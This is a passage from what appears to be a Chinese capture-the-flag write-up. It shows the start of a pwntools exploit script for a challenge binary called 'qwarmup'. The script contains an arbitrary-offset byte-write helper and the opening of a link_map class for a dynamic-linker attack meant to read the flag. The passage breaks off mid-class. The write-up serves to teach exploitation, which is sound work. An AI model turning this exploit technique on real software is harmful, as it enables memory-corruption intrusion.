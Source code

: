 ORW读flag。

### 6. 完整exp

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
ld = ELF('/lib64/ld-linux-x86-64.so.2')
elf = ELF("./qwarmup")

local = 1

if local:
    p = process("./qwarmup")    
else:
    p = remote("","")

def debug(p,cmd=""):
    if local:
        gdb.attach(p,cmd)
    else:
        pass

def logger(msg,addr):
    log.success(msg+" ==>"+hex(addr))

def write(offset, data):
    for i, byte in enumerate(data):
        p.send(p64(offset + i, signed=True))
        if(type(byte) == type(0x1)):
            p.send(p8(byte))
        else:
            p.send(byte)
        p.recvuntil("Success!")

def write_nosuccess(offset, data):
    for i, byte in enumerate(data):
        p.send(p64(offset + i, signed=True))
        if(type(byte) == type(0x1)):
            p.send(p8(byte))
        else:
            p.send(byte)

class link_map:
    DT_JMPREL = 23
    DT_SYMTAB = 6
    DT_STRTAB = 5
    DT_VER = 50
    DT_FINI = 13
    DT_PLTGOT = 3
    DT_FINI_ARRAY = 26
    DT_FINI_ARRAYSZ = 28
    DT_DEBUG = 21

    def __init__(self, offset):
        self.offset = offset

    def l_addr(self):
        return ld.address + self.offset

    def l_info(self, tag):
````